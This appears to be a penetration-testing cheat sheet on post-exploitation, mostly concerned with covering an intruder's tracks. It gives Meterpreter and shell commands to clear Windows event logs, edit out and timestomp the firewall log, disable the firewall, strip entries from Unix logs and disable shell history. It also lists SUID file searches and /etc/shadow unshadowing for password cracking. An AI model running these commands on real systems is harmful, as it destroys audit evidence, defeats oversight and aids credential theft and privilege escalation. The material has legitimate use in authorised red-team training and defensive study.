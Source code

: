 +++
Title = "Post Exploitation"
weight = 3
+++

## Covering Tracks

* Potential Windows logged locations
	* Windows Event Logs
		* System
		* Application
		* Security
	* Application Logs
		* Such as SQL error or IIS Server logs if you exploited a specific application
	* Windows Firewall Logs
	* WMI Trace Logs
	* Prefetch
	* Microsoft Error Debugger Mechanism
		* Can create a memory dump when a program crashes
		* XP: Dr. Watson
		* Vista+: Windows Error Reporting
* Potential *Nix logged locations
	* /var/log
	* .bash_history
		* Normally does not get wrote until the shell is closed out
	* utmp, wtmp, btmp
		* Binary, cannot be edited without custom tools
	* Core debugging
		* Run "ulimit -c" to determine if it's enabled
		* /core

## Windows

### Meterpreter

```
run event_manager -l <log> -f <event ID>
run event_manager -c <log>
run event_manager -I
```

#### Clean firewall log

```
run multicommand -cl "findstr \"<string>\" c:\\windows\\system32\\logfiles\\firewall\\pfirewall.log"
run multicommand -cl "cmd /c findstr /V \"<string>\" c:\\windows\\pfirewall.log > c:\\windows\\temp\\log.tmp"
ps -U <user> (Look for logon.scr to indicated screensaver is running)
run multicommand -cl "netsh firewall set opmode disable"
run multicommand -cl "cmd /c type log.tmp | find /c /v \"\"" (Get line count)
run multicommand -cl "cmd /c more log.tmp +<above result - 1>" (Get last entry)
run multicommand -cl "cmd /c move c:\\windows\\temp\\log.tmp c:\\windows\\system32\\logfiles\\firewall\\pfirewall.log"
timestomp -m "MM/DD/YYYY HH:MM:SS" c:\\windows\\system32\\logfiles\\firewall\\pfirewall.log
run multicommand -cl "netsh firewall set opmode enable"
```

#### Find crash dumps

```
run multicommand -cl "cmd /c dir c:\\*.*dmp /S /A"
```

#### List directory contents, oldest to newest write time

```
run multicommand -cl "cmd /c dir /A /od /tw"
```

#### Get logs from last 30 minutes

```
run multicommand -cl "cmd /c psloglist.exe -m 30 <logname> /accepteula"
```

## *Nix

```
find /var/log -type f -mmin -30 2> /dev/null
```

### Prevent shell history

`unset HISTFILE`

### Clean plain text logs

```
grep -v "<string>" /var/log/<file> > /tmp/log.clean
cp /tmp/log.clean /var/log/<file> (Copying preserves permissions!)
touch -t YYYYMMDDHHMM.SS <file>
rm -rf /tmp/log.clean
```

### Find all logs with your IP

```
find /var/log -type f -exec grep 'ip' /dev/null {} +
```

### View cron jobs

```
for i in `find /etc/cron* -type f | cut -d":" -f 1`; do echo; echo "==========$i=========="; ls -l "$i"; cat -n "$i" 2>&1;done
```

### Files & File System

#### Find all SUID files

```
find / -perm -4000 2>/dev/null
```

## Password Cracking

### John

```
unshadow passwd shadow > unshadowed.txt
```

### Backup files

```
/etc/passwd-
/etc/shadow-
```
